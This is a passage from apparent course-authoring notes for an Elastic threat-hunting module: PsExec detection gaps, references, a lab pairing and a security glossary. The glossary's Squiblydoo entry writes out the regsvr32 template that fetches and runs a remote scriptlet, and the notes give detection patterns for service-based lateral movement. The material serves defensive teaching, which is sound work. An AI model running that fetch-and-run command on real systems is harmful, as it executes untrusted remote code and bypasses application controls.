8. **PsExec EID 7045 blind spots.** Modern PsExec variants randomise the service name, so the literal `PSEXESVC` filter misses bespoke builds. Pair with a behavioural rule on `services.exe → cmd.exe / powershell.exe` parent-child plus a registry hunt on `HKLM\SYSTEM\CurrentControlSet\Services\*\ImagePath` for `\\\\.\\pipe\\` or `%SystemRoot%\\<random>.exe`.

9. **References to cite in the rendered lesson.**
   - Elastic EQL syntax — `https://www.elastic.co/guide/en/elasticsearch/reference/current/eql-syntax.html`
   - Elastic ES|QL — `https://www.elastic.co/guide/en/elasticsearch/reference/current/esql.html`
   - Elastic Common Schema field reference — `https://www.elastic.co/guide/en/ecs/current/ecs-field-reference.html`
   - LOLBAS project — `https://lolbas-project.github.io/`
   - MITRE ATT&CK — `https://attack.mitre.org/` (cite each `Txxxx[.yyy]` page used)
   - PEAK framework — Splunk SURGe, *PEAK Threat Hunting Framework* whitepaper.

10. **Lab pairing.** This module pairs naturally with a DetectionLab or HELK lab where the learner runs Sysmon-config-laden VMs, throws Atomic Red Team T1059.001 / T1218.010 / T1070.001 / T1562.001 atomics, and runs every query in this module against their own data. Strongly recommend the curriculum builder ship that lab as the L2 M3 capstone.

---

## Glossary (for ION's lesson template `glossary` block)

- **AMSI** — Antimalware Scan Interface. The Windows hook that AV/EDR engines use to inspect script content at runtime. Bypasses target the in-process AMSI session.
- **ECS** — Elastic Common Schema. The normalised field naming convention for all telemetry in Elasticsearch.
- **EDR** — Endpoint Detection and Response. In Elastic terms, the Elastic Agent endpoint integration plus Security app.
- **EID** — Event ID. The numeric identifier on a Windows-channel event, mirrored to ECS as `event.code`.
- **EQL** — Event Query Language. Elastic's sequence-and-correlation language; supports `sequence`, `join`, `sample`.
- **ES|QL** — Elasticsearch Query Language (piped). Elastic's analytical pipeline language with `STATS`, `BUCKET`, `EVAL`, `LIKE`.
- **IFEO** — Image File Execution Options. Registry hive supporting per-binary debugger attach; abused for accessibility-binary persistence (sticky-keys, magnify, osk).
- **KQL** — Kibana Query Language. Lightweight filter language used in Discover and rule definitions.
- **LFO** — Least Frequency of Occurrence. Hunt heuristic: the rarer it is, the more likely it is interesting.
- **LOLBAS** — Living Off the Land Binaries and Scripts (project: lolbas-project.github.io). Catalogue of Microsoft-signed binaries abusable for execution / proxy / file-fetch.
- **M-ATH** — Model-Assisted Threat Hunting. PEAK's term for statistical / aggregation-driven hunts.
- **PEAK** — Prepare, Execute, Act with Knowledge. Splunk SURGe's threat hunting framework (the L2 Module 1 prerequisite).
- **PPL** — Protected Process Light. Windows process isolation tier — `RunAsPPL` registry value protects LSA from in-process credential dumping.
- **Squiblydoo** — Casey Smith's classic AppLocker bypass via `regsvr32 /u /s /i:http://...sct scrobj.dll`.
- **TA / T / .yyy** — MITRE ATT&CK tactic / technique / sub-technique notation. TA0002 = Execution, T1059.001 = PowerShell sub-technique.


